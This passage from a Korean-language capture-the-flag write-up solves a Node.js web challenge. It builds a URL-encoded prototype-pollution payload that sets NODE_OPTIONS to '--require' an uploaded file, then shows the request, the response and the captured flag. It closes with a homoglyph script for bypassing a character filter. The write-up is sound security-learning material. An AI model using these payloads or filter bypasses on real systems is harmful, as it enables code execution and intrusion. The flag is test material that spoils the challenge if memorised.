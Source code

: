 ```js
                    }
                }
            }
        });
    } catch (e) {
        res.send("I don't know..");
    }
});
```

- [Node CLI Document](!https://nodejs.org/api/cli.html)에서 `NODE_OPTIONS`에 대한 키워드로 검색해보면 `--require` 또는 `-r` 옵션으로  특정 모듈을 `preload` 해주는 기능을 사용할 수 있다는 것을 알 수 있음

- 위의 정보와 `json`구조, `URL Encoding`에 유의하여 아래의 payload를 작성할 수 있음 
```
{"filename":"${filename}", "State":"Not Found"} 
```

```
asdf%22,%22__proto__%22:%7B%22NODE_OPTIONS%22:%22--require%20%2fapp%2fpublics%2fuploads%2ftmp.jpg%22%7D,%22asdf%22:%22asdf
```

- request
```
GET /raw/asdf%22,%22__proto__%22:%7B%22NODE_OPTIONS%22:%22--require%20%2fapp%2fpublics%2fuploads%2ftmp.jpg%22%7D,%22asdf%22:%22asdf HTTP/1.1
```
- response
```
HTTP/1.1 200 OK
{"filename":"asdf","asdf":"asdf","State":"Not Found","NODE_OPTIONS":"--require /app/publics/uploads/tmp.jpg"}
```


### 4. debug 접속
- 출력 결과를 확인하기 위해 `/debug` 엔드포인트에 접속하면 `flag`를 얻을 수 있음
```
pocas{My father(E$on Musk) is a great man of the 21st century. I loved you} Debug mode on
```


---
# 삽질..
- 다양한 삽질이 있었는데, 가장 기억에 남는 건 URL 인코딩이랑 `'`이슈였음
- `/`를 경로로 인식해서 인코딩해야한다는 사실을 몰랐고
- `node -require`의 인자는 `'`가 들어가면 안되는 것을 몰랐음..


---
# 다른 풀이
- [여기서](!https://www.irongeek.com/homoglyph-attack-generator.php)좀 더 편하게 필터링을 우회할 수 있음
```js
// 'a'==['a'] 을 이용한 뻘짓도 해봄. 실패.
function f(x){
    for(i of x)
        if(/[A-Za-z]/g.test(i) == false && 'korea_pocas'.indexOf(i.toLowerCase()) != -1)
            console.log(i);
}
f('E e È É Ê Ë é ê ë Ē ē Ĕ ĕ Ė ė Ę Ě ě Ε Е е Ꭼ Ｅ ｅ	K k Κ κ К Ꮶ ᛕ K Ｋ ｋ0 O o Ο ο О о Օ 𐐠𱠠Ｏ ｏP p Ρ ρ Р р Ꮲ Ｐ ｐS s Ѕ ѕ Տ Ⴝ Ꮪ 𐐠𵠠Ｓ ｓÄ ӒÖ Ӧ0 O o Ο ο О о Օ 𐐠𱠠Ｏ ｏ_ ＿')
// 위 문자들 출처 : https://www.irongeek.com/homoglyph-attack-generator.php
// 출력물 : K _, 성공!!
```
